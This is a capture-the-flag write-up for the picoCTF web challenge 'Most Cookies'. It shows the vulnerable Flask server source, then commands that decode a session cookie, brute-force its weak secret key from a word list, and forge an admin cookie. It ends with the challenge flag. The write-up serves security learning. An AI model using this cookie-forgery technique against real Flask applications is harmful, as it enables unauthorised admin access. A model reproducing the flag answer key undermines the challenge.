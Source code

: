 # Most Cookies

## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:52134/

### Solution:
The challenge gives us a link which opens a webpage with a "session" cookie that we will most likely have to modify. Looking at the server.py sourcecode:
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```
Here we see that we must set the "very_auth" portion of the session cookie to be equal to admin in order to log in. Using the handy python flask session cookie decoder script at
https://github.com/noraj/flask-session-cookie-manager I decode the cookie as such:
```
zerodaytea@Patryk:/mnt/d/Coding/CTFs/PicoCTF2021/WebExploitation$ python3 flask-session-cookie-manager/flask_session_cookie_manager3.py decode -c "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YLAGPA.XMO3KTe4NKz9eLQPlKm6optk-Ao"
b'{"very_auth":"blank"}'
```
Currently the value of the cookie is blank and we must re-encode it with the value of "'{"very_auth":"admin"}'" in order to get the flag. The only issue is that to re-encode the cookie
we must use the proper secret key which is decided by this line in the server.py file:
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
Everytime the page is reloaded or accessed another secret key is chosen by random from the list of cookie names. By using the same script from before we can specify a secret key
with the -s tag.
```
zerodaytea@Patryk:/mnt/d/Coding/CTFs/PicoCTF2021/WebExploitation$ python3 flask-session-cookie-manager/flask_session_cookie_manager3.py decode -c "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YLAGPA.XMO3KTe4NKz9eLQPlKm6optk-Ao" -s 'snickerdoodle'
[Decoding error] Signature b'XMO3KTe4NKz9eLQPlKm6optk-Ao' does not match
```
When the wrong secret key is specified a "Decoding error" will be thrown by the script. Knowing that the secret key is one of the ones from the list we can keep trying them until
we get the correct one. For me the correct secret key was "peanut butter":
```
zerodaytea@Patryk:/mnt/d/Coding/CTFs/PicoCTF2021/WebExploitation$ python3 flask-session-cookie-manager/flask_session_cookie_manager3.py decode -c "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YLAGPA.XMO3KTe4NKz9eLQPlKm6optk-Ao" -s 'peanut butter'
{'very_auth': 'blank'}
```
Note that everytime you reload or access the page the cookie will look different because it is being signed with a different secret key. Make sure to not reload your page while working
on this challenge. Knowing this now we can now sign a new cookie with the value of admin for "very_auth" as such:
```
zerodaytea@Patryk:/mnt/d/Coding/CTFs/PicoCTF2021/WebExploitation$ python3 flask-session-cookie-manager/flask_session_cookie_manager3.py encode -s "peanut butter" -t '{"very_auth":"admin"}'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YLARpw.syqpGEhNTNk1s2iqLVEOH0QHnUA
```
Putting this new value into the session cookie back on the website http://mercury.picoctf.net:52134/display with a tool such as EditThisCookie for Chrome we get this contents 
with the flag.
```html

<!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_478da04c}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

### Flag:
```
picoCTF{pwn_4ll_th3_cook1E5_478da04c}
```
